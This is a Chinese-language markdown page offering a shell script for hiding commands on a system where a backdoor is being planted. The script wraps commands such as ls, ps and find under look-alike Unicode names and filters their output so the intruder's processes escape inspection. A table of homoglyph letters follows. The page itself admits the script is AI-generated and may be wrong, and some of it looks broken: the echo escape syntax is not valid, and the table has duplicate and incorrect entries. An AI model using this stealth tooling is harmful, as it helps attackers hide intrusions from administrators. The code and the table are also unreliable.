

# Shell同形异义字取代命令

在做安全植入后门的时候经常遇到Shell当中经常有替换命令并且不让进程查到的需求，使用下面的同形异义字去替换真实命令就查不到了，给输出的内容进行删除。

可以躲过检查。

## 脚本

```bash
#!/bin/sh

# 设置特殊字符
s=$(echo -e "\x{455}")
n=$(echo -e "\x{578}")

# 备份原始命令到变量$o中
o="$1"
shift

# 修改命令内容并写入文件$o
echo "#!/bin/sh" > "$o"
echo "$o" | sed -e "s/\([ltp]\)s/\1$s/g" -e "s/fin/fi$n/g" >> "$o"
echo "\$* | grep -vE \"[$s-$n]|grep|177\"" >> "$o"

# 设置文件权限
chmod 493 "$o"
```

## 字符相似度测试脚本

右键下载 [unicode](./ssss)

备注：本脚本由AI生成，或许可能有错误，仅提供参考，核对后使用。





## 同形异义字代码表

下面是从小写字母 'a' 到 'z' 的列表，使用Markdown格式排列

| 字符 | 同形异义字 | Unicode 编码 | Unicode字符类 |
| ---- | ---------- | ------------ | ------------- |
| a    | а          | \u0430       | 西里尔字母    |
| a    | ɑ          | \u0251       | 拉丁字母      |
| b    | Ь          | \u042c       | 西里尔字母    |
| b    | Ƅ          | \u0184       | 拉丁字母      |
| c    | ϲ          | \u03f2       | 希腊字母      |
| c    | с          | \u0441       | 西里尔字母    |
| d    | ԁ          | \u0501       | 西里尔字母    |
| d    | đ          | \u0111       | 拉丁字母      |
| e    | е          | \u0435       | 西里尔字母    |
| e    | é          | \u00e9       | 拉丁字母      |
| f    | ſ          | \u017f       | 拉丁字母      |
| f    | ƒ          | \u0192       | 拉丁字母      |
| g    | ց          | \u0581       | 亚美尼亚字母  |
| g    | ɡ          | \u0261       | 拉丁字母      |
| h    | һ          | \u04bb       | 西里尔字母    |
| h    | ħ          | \u0127       | 拉丁字母      |
| i    | і          | \u0456       | 西里尔字母    |
| i    | í          | \u00ed       | 拉丁字母      |
| j    | ј          | \u0458       | 西里尔字母    |
| j    | ʝ          | \u029d       | 拉丁字母      |
| k    | κ          | \u03ba       | 希腊字母      |
| k    | ĸ          | \u0138       | 拉丁字母      |
| l    | ℓ          | \u2113       | 拉丁字母      |
| l    | ɭ          | \u026d       | 拉丁字母      |
| m    | м          | \u043c       | 西里尔字母    |
| m    | ɱ          | \u0271       | 拉丁字母      |
| n    | ո          | \u0578       | 亚美尼亚字母  |
| n    | ŋ          | \u014b       | 拉丁字母      |
| o    | о          | \u043e       | 西里尔字母    |
| o    | ο          | \u03bf       | 希腊字母      |
| p    | р          | \u0440       | 西里尔字母    |
| p    | ρ          | \u03c1       | 希腊字母      |
| q    | ԛ          | \u051b       | 西里尔字母    |
| q    | ʠ          | \u02a0       | 拉丁字母      |
| r    | г          | \u0433       | 西里尔字母    |
| r    | ɾ          | \u027e       | 拉丁字母      |
| s    | ѕ          | \u0455       | 西里尔字母    |
| s    | ѕ          | \u0455       | 西里尔字母    |
| t    | т          | \u0442       | 西里尔字母    |
| t    | τ          | \u03c4       | 希腊字母      |
| u    | υ          | \u03c5       | 希腊字母      |
| u    | μ          | \u03bc       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| v    | ν          | \u03bd       | 希腊字母      |
| w    | ѡ          | \u0461       | 西里尔字母    |
| w    | ŵ          | \u0175       | 拉丁字母      |
| x    | х          | \u0445       | 西里尔字母    |
| x    | χ          | \u03c7       | 希腊字母      |
| y    | у          | \u0443       | 西里尔字母    |
| y    | у          | \u0443       | 西里尔字母    |
| z    | Հ          | \u0530       | 亚美尼亚字母  |
| z    | ʑ          | \u0291       | 拉丁字母      |

